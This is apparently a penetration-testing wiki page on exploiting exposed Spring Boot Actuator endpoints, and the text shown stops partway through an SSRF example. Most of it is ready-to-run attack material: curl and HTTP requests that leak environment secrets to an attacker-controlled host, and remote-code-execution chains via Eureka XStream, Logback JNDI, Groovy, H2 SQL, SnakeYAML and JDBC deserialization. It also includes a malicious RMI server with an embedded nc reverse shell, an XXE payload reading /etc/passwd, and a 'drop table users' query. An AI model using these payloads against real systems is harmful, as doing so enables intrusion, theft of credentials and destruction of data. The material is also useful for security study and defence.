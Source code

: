 # Spring Boot Actuators

## Theory

The Spring Boot Framework includes a number of features called actuators to help you monitor and manage your web application when you push it to production. Intended to be used for auditing, health, and metrics gathering, they can also open a hidden door to your server when misconfigured.

The following Actuator endpoints could potentially have security implications leading to possible vulnerabilities:

* /dump - displays a dump of threads (including a stack trace)
* /trace - displays the last several HTTP messages (which could include session identifiers)
* /logfile - outputs the contents of the log file
* /shutdown - shuts the application down
* /mappings - shows all of the MVC controller mappings
* /env - provides access to the configuration environment
* /actuator/env
* /restart - restarts the application
* /heapdump - Builds and returns a heap dump from the JVM used by our application

{% hint style="danger" %}
For Spring 1x, they are registered under the root URL, and in 2x they moved to the "/actuator/" base path.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We may use the [spring-boot.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt) wordlist from SecList to fuzz actuators URLs

```bash
feroxbuster -u http://<TARGET>/ -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt
```
{% endtab %}
{% endtabs %}

### Env

[env](https://docs.spring.io/spring-boot/docs/2.4.0/actuator-api/htmlsingle/#env) exposes properties from Spring's `ConfigurableEnvironment`. Exposition of this endpoint can lead to RCE or sensitive information leaks.&#x20;

{% hint style="danger" %}
Spring Boot 2.x uses `json` instead of `x-www-form-urlencoded` for property change requests via the `env` endpoint
{% endhint %}

{% hint style="danger" %}
Information returned by the `env` and `configprops` endpoints can be somewhat sensitive so keys matching a certain pattern are [sanitized](https://docs.spring.io/spring-boot/docs/2.0.x/reference/html/howto-actuator.html#howto-sanitize-sensible-values) (replaced by `*`) by default. However, below you can find several ways to retrieve these values
{% endhint %}

<details>

<summary>eureka.client.serviceUrl.defaultZone</summary>

Exploiting`eureka.client.serviceUrl.defaultZone` requires the following conditions:

* `/refresh` endpoint is available
* An application uses `spring-cloud-starter-netflix-eureka-client` dependency

#### Retrieving env properties

You can get `env` property value in plaintext by first setting the `eureka.client.serviceUrl.defaultZone` to the following values

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "eureka.client.serviceUrl.defaultZone",
    "value": "http://value:${your.property.name}@attacker-website.com/"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name": "eureka.client.serviceUrl.defaultZone","value": "http://value:${your.property.name}@attacker-website.com/"}' http://<TARGET>/actuator/env
```

Then, refresh the configuration

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

#### XStream deserialization RCE

It requires `Eureka-Client` version `< 1.8.7`.

You can gain RCE by first setting up a website that responds with a malicious XStream payload using [springboot-xstream-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-xstream-rce.py)

```bash
python springboot-xstream-rce.py
```

Then, set the `eureka.client.serviceUrl.defaultZone` property:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "eureka.client.serviceUrl.defaultZone",
    "value": "http://attacker-website.com/payload"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name": "eureka.client.serviceUrl.defaultZone","value": "http://attacker-website.com/payload"}' http://<TARGET>/actuator/env
```

Then, refresh the configuration, the code will be executed.

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

</details>

<details>

<summary>logging.config</summary>

Exploiting `logging.config` requires `/restart` to be available.

#### Logback JDNI RCE

`ogging.config` can lead to RCE via Logback JNDI, Check [reloadByURL - RCE](spring-boot-actuators.md#reloadbyurl-rce) for the full process of hosting LDAP/RMI rogue server. The exploit is similar.

First, open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

And host the logback configuration at `http://attacker-website.com/logback.xml`:  with the following content:

```markup
<configuration>
  <insertFromJNDI env-entry-name="rmi://attacker-website.com:1097/jndi" as="appName" />
</configuration>
```

Then the next step is to create a malicious RMI service:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```

pom.xml to compile this project:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>RMIServer</artifactId>
    <version>0.0.1</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

</project>
```

Run the compiled jar

```bash
java -jar RMIServer-0.1.0.jar
```

Set `logging.config` properties:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "logging.config",
    "value": "http://attacker-website.com/logback.xml"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name": "logging.config","value":"http://attacker-website.com/logback.xml"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

#### Groovy RCE

First, host the `payload.groovy` file with the following content:

```bash
Runtime.getRuntime().exec("open -a Calculator")
```

Set logging.config:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "logging.config",
    "value": "http://attacker-website.com/payload.groovy"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"logging.config","value":"http://attacker-website.com/payload.groovy"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

</details>

<details>

<summary>spring.main.sources</summary>

Exploiting `spring.main.sources` requires`/restart` to be available.

#### Groovy RCE

First, host the `payload.groovy` file with the following content:

```bash
Runtime.getRuntime().exec("open -a Calculator")
```

Set `logging.config`:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.main.sources",
    "value": "http://attacker-website.com/payload.groovy"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.main.sources","value":"http://attacker-website.com/payload.groovy"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

</details>

<details>

<summary>spring.datasource.tomcat</summary>

#### validationQuery

`spring.datasource.tomcat.validationQuery` allows specifying any SQL query, that will be automatically executed against the current database. It could be any statement, including insert, update, or delete.

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.tomcat.validationQuery",
    "value": "drop+table+users"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.tomcat.validationQuery","value":"drop table users"}' http://<TARGET>/actuator/env
```

#### url

`spring.datasource.tomcat.url` allows modifying the current JDBC connection string.

The problem here is that when the application establishing the connection to the database is already running, just updating the JDBC string has no effect. But you can try using `spring.datasource.tomcat.max-active` to increase the number of simultaneous database connections.

Thus, you can change the JDBC connection string, increase the number of connections, and then send many requests to the application to simulate a heavy load. Under load, the application will create a new database connection with an updated malicious JDBC string.

```bash
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.tomcat.url","value":"jdbc:mysql://ATTACKING-IP:3001/testx1"}' http://<TARGET>/actuator/env
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.tomcat.max-active","value":"5"}' http://<TARGET>/actuator/env
```

</details>

<details>

<summary>spring.datasource</summary>

#### data

`spring.datasource.data` can be used to gain RCE if the following coditions are met:

* `/restart` is available
* `h2database` and `spring-boot-starter-data-jpa` dependencies are used

In order to exploit this endpoint, start a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

And then, host the following `payload.sql` file

```sql
CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('/bin/bash','-c','open -a Calculator');
```

Note that te `T5` method in the payload must be renamed (to `T6`) after the command is executed before it can be recreated and used. Otherwise, the vulnerability will not trigger the next time an application is restarted.

Then, set the `spring.datasource.data`:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.data",
    "value": "http://attacker-website.com/payload.sql"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.data","value":"http://attacker-website.com/payload.sql"}' http://<TARGET>/actuator/env
```

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

#### url

`spring.datasource.url` is database connection string that is used only for the first connection. You can chain it with JDBC [**deserialization**](../../../web-vulnerabilities/server-side/deserialization/) vulnerability in MySQL to gain RCE. The vulnerability requires the following conditions:

* `/refresh` is available
* `mysql-connector-java` dependency is used

Note that changing `spring.datasource.url` will temporarily disable all normal database services

To exploit, use the `/actuator/env` endpoint to fetch the next values:

* `mysql-connector-java` version number (5.x or 8.x)
* Common deserialization gadgets, such as `commons-collections`
* `spring.datasource.url` value to facilitate later crafting of its normal JDBC URL

Create a payload with [ysoserial](https://github.com/frohoff/ysoserial)

```bash
java -jar ysoserial.jar CommonsCollections3 calc > payload.ser
```

Use [springboot-jdbc-deserialization-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-jdbc-deserialization-rce.py) to host `payload.ser`

Set the `spring.datasource.url` property:\
`mysql-connector-java` version 5.x:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.url",
    "value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.url","value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}' http://<TARGET>/actuator/env
```

`mysql-connector-java` version 8.x:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.url",
    "value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.datasource.url","value":"jdbc:mysql://your-vps-ip:3306/mysql?characterEncoding=utf8&useSSL=false&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&autoDeserialize=true"}' http://<TARGET>/actuator/env
```

Refresh the configuration:

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

Finally, try to access an endpoint that will trigger a database query, for example `/product/list`, or find other ways to query the database and trigger the vulnerability

</details>

<details>

<summary>spring.cloud.bootstrap.location</summary>

Exploiting `spring.cloud.bootstrap.location` requires the following conditions:

* `/refresh` endpoint is available
* `spring-cloud-starter` version `< 1.3.0.RELEASE`

#### Retrieving env properties

You can get `env` property value in plaintext by starting a webserver and setting the `spring.cloud.bootstrap.location` property as follow:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.cloud.bootstrap.location",
    "value": "http://attacker-website.com/?=${your.property.name}"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.cloud.bootstrap.location","value":"http://attacker-website.com/?=${your.property.name}"}' http://<TARGET>/actuator/env
```

Refresh the configuration:

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

Retrive the property value from `attacker-website.com` logs

#### SnakeYML RCE

`spring.cloud.bootstrap.location` allows loading an external config in YAML format. You can gain code execution with the next steps:

Host `config.yml` at `http://attacker-website.com/config.yml` with the following content:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://attacker-website.com/payload.jar"]
  ]]
]
```

Host `payload.jar` with the code that will be executed, check [marshalsec](https://github.com/mbechler/marshalsec) and [yaml-payload](https://github.com/artsploit/yaml-payload) for how to prepare the payload

Set the `spring.cloud.bootstrap.location` property:

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.cloud.bootstrap.location",
    "value": "http://attacker-website.com/yaml-payload.yml"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"name":"spring.cloud.bootstrap.location","value":"http://attacker-website.com/yaml-payload.yml"}' http://<TARGET>/actuator/env
```

Refresh the configuration and code will be executed:

```bash
POST /actuator/refresh HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/refresh
```

</details>

<details>

<summary>spring.datasource.hikari.connection-test-query</summary>

`spring.datasource.hikari.connection-test-query` sets a query that will be executed before granting a connection from a pool. It can lead to RCE if the following conditions are met:

* `/restart` endpoint is available
* `com.h2database.h2` dependency is used

You can gain code execution by setting the `spring.datasource.hikari.connection-test-query` property

```bash
POST /actuator/env HTTP/1.1
Content-Type: application/json

{
    "name": "spring.datasource.hikari.connection-test-query",
    "value": "CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');"
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d "{\"name\":\"spring.datasource.hikari.connection-test-query\",\"value\":\"CREATE ALIAS T5 AS CONCAT('void ex(String m1,String m2,String m3)throws Exception{Runti','me.getRun','time().exe','c(new String[]{m1,m2,m3});}');CALL T5('cmd','/c','calc');\"}" http://<TARGET>/actuator/env
```

The `T5` method in the payload must be renamed (to `T6`) after the command is executed before it can be recreated and used. Otherwise, the vulnerability will not trigger the next time an application is restarted.

Restart the application:

```bash
POST /actuator/restart HTTP/1.1
Content-Type: application/json

#Or curl command
curl -X POST -H "Content-Type: application/json" http://<TARGET>/actuator/restart
```

</details>

### Jolokia

If the Jolokia Library is in the target application classpath, it is automatically exposed by Spring Boot under the `/jolokia` actuator endpoint. Jolokia allows HTTP access to all registered MBeans and is designed to perform the same operations you can perform with JMX. It is possible to list all available **MBeans actions** using the URL:

```bash
http://<TARGET>/jolokia/list
http://<TARGET>/actuator/jolokia/list
```

<details>

<summary>Extract env properties</summary>

You can invoke relevant MBeans to retrive `env` property values in plaintext. Below you can find MBeans that can be used for this purpose. However, the situation may differ and the Mbeans listed may not be available. However, you can search methods that can be called by keywords like `getProperty`.

#### org.springframework.boot

You can get `env` property value in plaintext using the following request:

```bash
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{
    "mbean": "org.springframework.boot:name=SpringApplication,type=Admin",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "your.property.name"
    ]
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"mbean":"org.springframework.boot:name=SpringApplication,type=Admin","operation":"getProperty","type":"EXEC","arguments":["your.property.name"]}' http://<TARGET>/actuator/jolokia
```

#### org.springframework.cloud.context.environment

You can get `env` property value in plaintext using the following request:

```bash
POST /actuator/jolokia HTTP/1.1
Content-Type: application/json

{
    "mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager",
    "operation": "getProperty",
    "type": "EXEC",
    "arguments": [
        "your.property.name"
    ]
}

#Or curl command
curl -X POST -H "Content-Type: application/json" -d '{"mbean":"org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation":"getProperty","type":"EXEC","arguments":["your.property.name"]}' http://<TARGET>/actuator/jolokia
```

</details>

<details>

<summary>reloadByURL - XXE</summary>

The `reloadByURL` action, provided by the Logback library, allows us to reload the logging **XML config file** from an external URL

If the action `reloadByURL` exists, the logging configuration can be reload from an external URL. You can exploit this feature to trigger an Out-Of-Band XXE.

Host the logback.xml configuration and file.dtd at `http://attacker-website.com/`:

```xml
# file logback.xml from the server attacker-website
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE a [ <!ENTITY % remote SYSTEM "http://attacker-website/file.dtd">%remote;%int;]>
<a>&trick;</a>
```

```xml
# file file.dtd from the server attacker-website
<!ENTITY % d SYSTEM "file:///etc/passwd"> 
<!ENTITY % int "<!ENTITY trick SYSTEM ':%d;'>">
```

the logging configuration can be reload from our server by requesting following URL:

```bash
curl http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

</details>

<details>

<summary>reloadByURL - RCE</summary>

The `reloadByURL` action, provided by the Logback library, allows us to reload the logging **XML config file** from an external URL

In the XML file, we can include a tag like `<insertFromJNDI env-entry-name="java:comp/env/appName" as="appName" />` and the name attribute will be passed to the DirContext.lookup() method. If we can supply an arbitrary name into the .lookup() function, we don't even need XXE or HeapDump because it gives us a full **Remote Code Execution**.

#### JDK > 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

And host the logback configuration at `http://attacker-website.com/logback.xml`:

```xml
# file logback.xml from the server attacker-website
<configuration>
  <insertFromJNDI env-entry-name="rmi://attacker-website.com:1097/jndi" as="appName" />
</configuration>
```

Then the next step is to create a malicious RMI service:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```

pom.xml to compile this project:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>RMIServer</artifactId>
    <version>0.0.1</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

</project>
```

Run the compiled jar

```bash
java -jar RMIServer-0.1.0.jar
```

The logging configuration can be reload from our server by requesting following URL:

```bash
curl http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

#### JDK < 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

and host the logback configuration at `http://attacker-website.com/logback.xml`:

```xml
# file logback.xml from the server attacker-website
<configuration>
    <insertFromJNDI env-entry-name="ldap://attacker-website.com:1389/JNDIObject" as="appName" />
</configuration>
```

Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java). Compile it such a way that it is compatible with earlier JDK versions:

```bash
# Compile it 
javac -source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated `JNDIObject.class`file to the root directory of the `http://attacker-website.com` websit&#x65;**.**

Set up LDAP server, use [marshalsec](https://github-com.translate.goog/mbechler/marshalsec?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp) to set up the server:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://attacker-website.com:80/#JNDIObject 1389
```

The logging configuration can be reload from our server by requesting following URL:

```bash
curl http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/attacker-website.com!/logback.xml
```

If an application successfully requests `logback.xml` and `marshalsec` receives the target request, but an application does not request `JNDIObject.class`, it is likely that an application's JDK version is too high, causing JNDI usage to fail.

</details>

<details>

<summary>createJNDIRealm - RCE</summary>

One of the MBeans of Tomcat (embedded into Spring Boot) is `createJNDIRealm`. `createJNDIRealm` allows creating JNDIRealm that is vulnerable to JNDI injection. You can expoit with the next steps:

Get the `/jolokia/list` or `/actuator/jolokia/list` to check if `type=MBeanFactoryand` and `createJNDIRealm` are in place

```bash
curl https://<TARGET>/actuator/jolokia/list | grep 'createJNDIRealm'
```

#### JDK > 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

Then the next step is to create a malicious RMI service:

```java
import java.rmi.registry.*;
import com.sun.jndi.rmi.registry.*;
import javax.naming.*;
import org.apache.naming.ResourceRef;
 
public class EvilRMIServer {
    public static void main(String[] args) throws Exception {
        System.out.println("Creating evil RMI registry on port 1097");
        Registry registry = LocateRegistry.createRegistry(1097);
 
        //prepare payload that exploits unsafe reflection in org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        //redefine a setter name for the 'x' property from 'setX' to 'eval', see BeanFactory.getObjectInstance code
        ref.add(new StringRefAddr("forceString", "x=eval"));
        //expression language to execute 'nslookup jndi.s.artsploit.com', modify /bin/sh to cmd.exe if you target windows
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/bin/sh','-c','rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 1234 >/tmp/f']).start()\")"));
 
        ReferenceWrapper referenceWrapper = new com.sun.jndi.rmi.registry.ReferenceWrapper(ref);
        registry.bind("jndi", referenceWrapper);
    }
}
```

pom.xml to compile this project:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.springframework</groupId>
    <artifactId>RMIServer</artifactId>
    <version>0.0.1</version>

    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.0.RELEASE</version>
    </parent>

    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>

    <properties>
        <java.version>1.8</java.version>
    </properties>

</project>
```

Run the compiled jar

```bash
java -jar RMIServer-0.1.0.jar
```

Modify the target address, RMI address, port and other information in the [springboot-realm-jndi-rce.py](https://translate.google.com/website?sl=auto\&tl=en\&hl=en\&client=webapp\&u=https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) script according to the actual situation , and then run it on the server you control.

```bash
#Start listener
nc -lvnp 443

#Exploit (JNDIObject = jndi)
python springboot-realm-jndi-rce.py
```

#### JDK < 1.8.0\_191

Open a simple HTTP server on the machine you control

```bash
python3 -m http.server 80
```

Prepare a Java code for execution, you can reuse the [JNDIObject.java](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java). Compile it such a way that it is compatible with earlier JDK versions:

```bash
# Compile it 
javac -source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated `JNDIObject.class`file to the root directory of the `http://attacker-website.com` websit&#x65;**.**

Set up RMI server, use [marshalsec](https://github-com.translate.goog/mbechler/marshalsec?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp) to set up the server:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://attacker-website.com:80/#JNDIObject 1389
```

The we wan send the payload by editing the target address, RMI address, port and other information in the [springboot-realm-jndi-rce.py](https://translate.google.com/website?sl=auto\&tl=en\&hl=en\&client=webapp\&u=https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) script according to the actual situation , and then run it on the server you control.

```bash
#Start listener
nc -lvnp 443

#Exploit
python springboot-realm-jndi-rce.py
```

</details>

### gateway

The [gateway](https://cloud.spring.io/spring-cloud-gateway/reference/html/#actuator-api) actuator endpoint lets you monitor and interact with a Spring Cloud Gateway application. In other words, you can define routes for the application and use `gateway` actuator to trigger requests according to these routes.

Routes can provide access to hidden or internal endpoints, which can be misconfigured or vulnerable. You can fetch all available routes via `GET`-request to `/actuator/gateway/routes`.

<details>

<summary>SSRF</summary>

If [adding routes](https://cloud.spring.io/spring-cloud-gateway/reference/html/#creating-and-deleting-a-particular-route) do not require administrative permissions. The next request will create a route to localhost:

```http
POST /actuator/gateway/routes/new_route HTTP/1.1
Content-Type: application/json

{
"predicates": [
    {
    "name": "Path",
    "args": {
        "_genkey_0": "/new_route/**"
    }
    }
],
"filters": [
    {
    "name": "RewritePath",
    "args": {
        "_genkey_0": "/new_route(?<path>.*)",
        "_genkey_1": "/${path}"
    }
    }
],
"uri": "https://localhost",
"order": 0
}
```

Send refresh request to apply new route:

```http
POST /actuator/gateway/refresh HTTP/1.1
Content-Type: application/json

{
    "predicate": "Paths: [/new_route], match trailing slash: true",
    "route_id": "new_route",
